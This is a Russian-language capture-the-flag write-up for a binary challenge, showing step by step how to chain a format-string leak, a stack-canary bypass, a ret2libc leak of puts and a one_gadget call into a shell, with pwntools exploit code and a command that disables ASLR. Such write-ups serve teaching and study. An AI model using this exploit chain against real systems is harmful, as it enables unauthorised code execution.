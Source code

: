 Описание эксплойта
===

Сначала проверяем бинарный файл

```bash
file publish/unhackable_bash && checksec publish/unhackable_bash
```

![Check](../images//check.jpg)

Важные для нас моменты - включённые [pie](https://pwn.college/concepts/pie.html) и [stack canary](https://ctf101.org/binary-exploitation/stack-canaries/)

Первое означает, что для получения shell нам сначала нужно будет узнать `PIEBASE`, то есть базовый адрес, по которому ОС загрузила нашу программу в память. Без него, читая бинарник, мы можем узнать лишь смещения адресов функций относительного базового адреса

![Functions](../images/functions.jpg)

Наличие стековых канареек не позволяет сразу использовать `ret2libc` и в целом перехватывать контроль над программой, перетирая адреса возврата из функций. Следовательно, в какой-то момент нашего эксплойта мы должны узнать значение стековой канарейки (оно одно на всю программу), чтобы в дальнейшем подставлять его при переполнениях

Для дальнейшего анализа воспользуемся декомпилятором `Cutter`. Проматривая полученный псевдокод на С, находим 2 потенциально уязвимые функции, `read_file` и `get_feedback`. Первая использует `gets`, небезопасное чтение из `stdin` в буффер, которое не проверяет длину считываемой строки, таким образом позволяя переполнить буффер и переписать значения на стэке. Вторая функция использует уже безопасное чтение из файла `fgets`, однако печатает строку через `printf` как литерал, допуская уязвимость форматной строки и чтение данных со стека

![Format string](../images/format_strinf.jpg)

> Для локального анализа будет полезно отключить ASLR, чтобы программа загружалась в память каждый раз по одному и тому же адресу
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
``` 

Напишем простой скрипт [`fuzz.py`](./fuzz.py) для автоматизации проверок печатаемых значений. Наша цель - узнать канарейку и `PIEBASE`. Прогоняя скрипт вместе с `gdb`, находим на каком месте в стэке расположена канарейка и адрес какой-либо функции. Затем вычитая из адреса функции его смещение (оно статически вшито в бинарь), мы получаем базовый адрес

```python
# Leak 2 values from stack, address to calculate piebase and canary
io.sendlineafter(b'learned', '%{}$p %{}$p'.format(
    address_stack_offset, canary_stack_offset).encode())

io.recvuntil(b': ')

address_str, canary_str = str(io.recvline(), 'utf-8').split(' ')

leaked_address = int(address_str, 16)
leaked_cannary = int(canary_str, 16)

# Now calculate the piebase using known static address offset
exe.address = leaked_address - pie_offset

# Print leaked values for debug
info("piebase: %#x", exe.address)
info("leaked canary: %#x", leaked_cannary)
```

Теперь нам нужно узнать базовый адрес `libc`. Для этого мы распечатаем адрес какой-то функции из `got.plt` и вычтем её относительное смещение. Значит нам нужна какая-то функция из `libc` которая уже была вызвана в программе до этого, чтобы её адрес попал в `plt`. Для этого удобно подойдёт `puts`, с помощью которой мы потом и распечатаем адрес самой `puts`. Но нам нужно ещё положить адрес в регистр `rdi`, ведь именно значение из него используется в `puts`.

Воспользуемся командной утилитой `ropper` и найдём адрес гаджета (а точнее его смещение относительно базового) который выполнит `pop rdi`.

![Ropper](../images/ropper.jpg)

Составим вредоносный `payload`, который выведет адрес `puts` в результате и отправим его, а в самом конце перетрём адрес возврата снова на функцию `read_file`

```python
# Construct payload to leak libc address
payload = flat({
    buffer_offset: [
        leaked_cannary,  # leaked canary to safely take up on the control flow
        b'junkjunk',     # just need to feel the offset
        pop_rdi_gadget,  # pop rdi; ret
        exe.got.puts,    # get GOT address of puts as argument to next call of puts
        exe.plt.puts,    # Call puts() to leak the GOT.puts address
        exe.symbols.read_file # rewrite return address with read_file again
    ]
})

# Send payload and skip 1 line
io.sendline(payload)
io.recvline()

# Read and unpack got address for puts
got_puts = unpack(io.recvline()[:6].ljust(8, b"\x00"))

# Calculate libc base address using puts offset
libc.address = got_puts - libc.symbols.puts

info("libc_base: %#x", libc.address)
```

Используем утилиту `one_gadget` чтобы найти гаджет в `libc` который и даст нам shell. Нам подходит самый первый

![One gadget](../images/one_gadget.jpg)

Теперь у нас есть всё необходимое для того чтобы выполнить `ret2libc с захватом shell`.

```python
# Knowing libc address, we can calculate our shell gadget address
shell_gadget = libc.address + shell_gadget_offset

# Same payload as before but with libc gadget now
payload = flat({
    buffer_offset: [
        leaked_cannary,
        b'junkjunk',
        shell_gadget  # system('/bin/sh')
    ]
})

# Send payload
io.recvuntil(b'filename')
io.sendline(payload)

# Skip line
io.recvline()

# Get shell
io.interactive()
```

# Результат работы скрипта

### Локально

![Local](../images/local.jpg)

### Удалённо

![Remote](../images/result.jpg)

